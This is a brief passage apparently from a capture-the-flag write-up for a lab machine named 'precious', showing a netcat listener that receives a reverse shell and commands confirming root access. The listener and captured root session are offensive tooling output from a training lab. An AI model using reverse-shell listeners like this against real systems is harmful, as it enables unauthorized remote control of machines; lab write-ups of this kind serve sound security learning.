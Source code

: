 
Then : 

```sh
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.62.243] 45106
root@precious:/home/henry# cd
cd
root@precious:~# whoami
whoami
root
root@precious:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@precious:~# 



```